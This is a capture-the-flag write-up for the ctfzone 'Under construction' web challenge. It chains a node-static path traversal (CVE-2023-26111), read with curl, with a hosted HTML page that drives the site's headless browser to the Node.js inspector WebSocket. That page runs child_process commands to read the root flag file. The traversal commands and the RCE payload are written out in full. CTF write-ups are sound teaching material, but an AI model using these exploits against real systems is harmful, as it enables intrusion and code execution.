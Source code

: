 # Under construction
> We started the development of a new task but havent completed it yet.

> The debug version works on the site. We believe there is no way to get the flag now, but you can try!

## About the Challenge
We have been given a source (You can download the source code [here](source.zip)) and also the website. Here is the preview of the website

![preview](images/preview.png)

There is a countdown and there is also another endpoint where we can input a URL and then The website will then navigate to the URL we have inputted

![preview](images/preview_2.png)

## How to Solve?
Now let's check the source code

![source_code](images/source_code.png)

There is a folder called `app`, and 2 js file: `app.js` and `worker.js`. Let's see the `package.json` first to see if there is an outdated dependencies

```json
{
  "dependencies": {
    "node-static": "0.7.11",
    "puppeteer": "20.7.3",
    "react-cyber-elements": "^1.0.2"
  }
}
```

Hmm, what is `node-static` package? lets see if this version is vulnerable or not using `security.snyk.io`

![snyk](images/snyk.png)

And voila, we know this package was vulnerable to `CVE-2023-26111` (You can check this [gist.github.com](https://gist.github.com/lirantal/c80b28e7bee148dc287339cb483e42bc) to read the details). Let's check the source code again

```node
const hostname = '0.0.0.0';
const port = 3000;
var file = new static.Server('./app');
```

This program creates a node-static server to serve the `./app` folder. As a result, we can access folders or files that begin with the word `app` such as `../app.txt` or ``../app/index.html``. For example, due to the presence of a file named app.js in the server, we can send a request like the following using curl.

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app.js" --path-as-is -v
```

![cve](images/cve.png)

It will show us the source code of `app.js`. Not let's check the `Dockerfile`.

```bash
CMD ["bash","-c","node --inspect app.js  1>app-logs.out 2>app-logs.err"]
```

As you can see, the program ran using `--inspect` switch and the output will be put in a file called `app-logs.out` and if there is an error it will be put in a file called `app-logs.err`. In this case we can see the output of these 2 files by using this curl command

```bash
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.out" --path-as-is -v
curl "http://web-under-construction-ins1.ctfz.one/../app-logs.err" --path-as-is -v
```

![app-out](images/app-out.png)

![app-err](images/app-err.png)

And then what? let's check `Dockerfile` again. The flag was located in `/root/flag.txt`

```
RUN echo "ctfzone{REDACTED}" > /root/flag.txt
RUN echo "ubuntu ALL = (root) NOPASSWD: /bin/cat /root/flag.txt" >> /etc/sudoers
```

So, we need to do Remote Code Execution and then run `sudo /bin/cat /root/flag.txt` to obtain the flag. And to do RCE, as I said before, the program ran using `--inspect` switch. And because of we know the URL of the debugger we can do RCE (You can read this [post](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) about RCE in Node.js Debugger).

And in the end, we create a HTML code to read the flag and then put the flag to `app-logs.out` file

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        let ws = new WebSocket("ws://127.0.0.1:9229/bff792d1-3b2c-4d2a-812a-d95a7f158f2c");
        ws.onmessage = function(data){new Image().src = '/message?' + data.data;}
        ws.onerror = function(data){new Image().src = '/error?' + data;}
        ws.onopen = () => {
            ws.send(
              JSON.stringify({
                id: 1,
                method: "Runtime.evaluate",
                params: {
                  expression:
                    'require(\'child_process\').execSync(\'sudo /bin/cat /root/flag.txt >> /home/ubuntu/app-logs.out\')',
                },
              })
            );
        };
    </script>
</body>
</html>
```

Host this HTML code somewhere, for example use VPS to host the code. And then put our website into `/browser` endpoint in the website. Wait for a while and you can obtain the flag

```
ctfzone{d3bug_m0d3_1s_c00l_f0r_CTF}
```